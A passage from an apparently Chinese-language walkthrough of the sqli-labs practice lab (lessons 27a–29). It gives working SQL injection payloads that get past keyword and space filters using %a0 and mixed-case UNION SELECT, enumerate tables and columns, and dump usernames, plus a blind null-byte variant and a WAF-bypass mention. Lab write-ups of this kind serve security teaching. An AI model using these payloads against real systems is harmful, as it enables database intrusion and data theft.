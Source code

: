 `?id=1"%a0And%a0(length(database())>8)%a0uNion%a0sELect%a01,database(),"3`

4.查表名

`?id=1"%a0And%a0(length(database())>8)%a0uNion%a0sELect%a01,(group_concat(table_name)),3%a0from%a0information_schema.tables%a0where%a0table_schema='security'%a0%26%26%a0"1"%a0="1`

5.查字段名

`?id=1"%a0And%a0(length(database())>8)%a0uNion%a0sELect%a01,(group_concat(column_name)),3%a0from%a0information_schema.columns%a0where%a0table_schema='security'%a0And%a0table_name='users'%26%26%a0"1"%a0="1`

6.查数据

`?id=-1"%a0And%a0(length(database())>8)%a0UNion%a0SElect%a0(1),(group_concat(username)),(3)from%a0users%a0UNion%a0SElect%a01,2,"3"="3`



***
# less 28(基于错误的，有括号的单引号字符型，过滤了union和select等的注入)
## 原理
出现注入的原因是大小写不严格导致 ，mysql语句中，对大小写不敏感，所以单独的过滤某个函数是没有用的，

必须转成小写在判断。这样就可以把大小写给过滤了。


## 步骤

`0')%A0UnIoN%A0SeLeCt(1),version(),3%26%26%a0('1`

`使用盲注也可以达到注入的目录`

`0')||left(database(),1)='s';%00`
***
# less 28a
## 原理
类似于28 这里可以使用注释
0')%A0UnIoN%A0SeLeCt(1),version(),database() --+


***
# less 29(绕过WAF)
## 原理
按理来讲应该是，参数污染?

绕过WAF

引用一下别人的文章
